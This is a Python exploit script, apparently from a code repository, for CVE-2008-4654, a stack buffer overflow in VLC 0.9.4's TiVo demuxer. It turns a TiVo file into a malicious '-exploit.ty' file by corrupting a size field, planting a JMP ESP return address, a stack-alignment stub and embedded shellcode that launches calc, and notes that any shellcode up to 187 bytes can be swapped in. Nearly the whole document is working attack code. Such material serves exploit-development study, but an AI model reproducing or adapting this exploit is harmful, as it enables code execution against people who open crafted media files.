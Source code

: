 EXP
---

    #!/usr/bin/python
    #
    # VLC 0.9.4 Stack-based Buffer Overflow exploit while demuxing
    # TiVo file format as it was described by Tobias Klein in his
    #   http://www.trapkit.de/advisories/TKADV2008-010.txt
    # CVE-2008-4654
    #
    # Shellcode has no bad characters requirements,
    # but must be at most 187 bytes long.
    #
    # Exploit by Mariusz B.
    #

    import struct
    import sys
    import os

    # 0x68f0cfad : jmp esp
    # {PAGE_EXECUTE_READ} [libqt4_plugin.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False
    RETURN_ADDRESS = 0x68f0cfad

    TIVO_MAGIC = 0xf5467abd

    # Aligns ESP stack pointer
    # push    esp
    # pop     eax
    # sub     ax, 0x180
    # mov     esp, eax
    STACK_ALIGN = "\x54\x58\x66\x2d\x80\x01\x8b\xe0"


    #
    # Shellcode to be used - no bad chars.
    # It must be at most 187 characters long!
    #
    # Below: 112 bytes long CreateProcess("calc")
    #   source: https://packetstormsecurity.com/files/102847/All-Windows-Null-Free-CreateProcessA-Calc-Shellcode.html
    #
    SHELLCODE =  (
        "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f"
        "\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b"
        "\x77\x20\x8b\x3f\x80\x7e\x0c\x33"
        "\x75\xf2\x89\xc7\x03\x78\x3c\x8b"
        "\x57\x78\x01\xc2\x8b\x7a\x20\x01"
        "\xc7\x89\xdd\x8b\x34\xaf\x01\xc6"
        "\x45\x81\x3e\x43\x72\x65\x61\x75"
        "\xf2\x81\x7e\x08\x6f\x63\x65\x73"
        "\x75\xe9\x8b\x7a\x24\x01\xc7\x66"
        "\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7"
        "\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9"
        "\xb1\xff\x53\xe2\xfd\x68\x63\x61"
        "\x6c\x63\x89\xe2\x52\x52\x53\x53"
        "\x53\x53\x53\x53\x52\x53\xff\xd7"
    )


    def replace(data, start, length, what):
        for (n, r) in zip(range(start, start+length), list(what)):
            data[n] = r

        return data

    def main(argv):
        if len(argv) == 1:
            print 'Usag: vlc-exploit.py <tivo-file>'
            sys.exit(1)

        data = bytearray()
        with open(argv[1], 'rb') as f:
            data = bytearray(f.read())

        pos = data.find(str(struct.pack('>I', TIVO_MAGIC)))
        if pos == -1:
            print '[!] Not a valid TiVo file.'
            sys.exit(1)

        print '[.] Got a valid TiVo file.'

        # Step 1: Replace TiVo's i_map_size variable in order to trigger out of bounds read.
        data = replace(data, pos + 20, 4, struct.pack('>I', 0xff))

        # Step 2: Prepare a return address as a JMP ESP
        data = replace(data, pos + 0x5c, 4, struct.pack('<I', RETURN_ADDRESS))
        data = replace(data, pos + 0x60, 4, '\x90' * 4)
        #data = replace(data, pos + 0x60, 4, '\xcc' + '\x90' * 3)   # DEBUG the shellcode

        # Step 3: Insert a shellcode
        print '[+] Writing {} bytes long shellcode...'.format(len(SHELLCODE))
        data = replace(data, pos + 0x64, len(STACK_ALIGN), STACK_ALIGN)
        data = replace(data, pos + 0x64 + len(STACK_ALIGN), len(SHELLCODE), SHELLCODE)

        print '[+] Exploit prepared.'

        new_file = os.path.join(os.path.dirname(argv[1]), os.path.splitext(argv[1])[0] + '-exploit.ty')
        with open(new_file, 'wb') as f:
            f.write(data)

        print '[+] Prepared file: "{}"'.format(new_file)

    if __name__ == '__main__':
        main(sys.argv)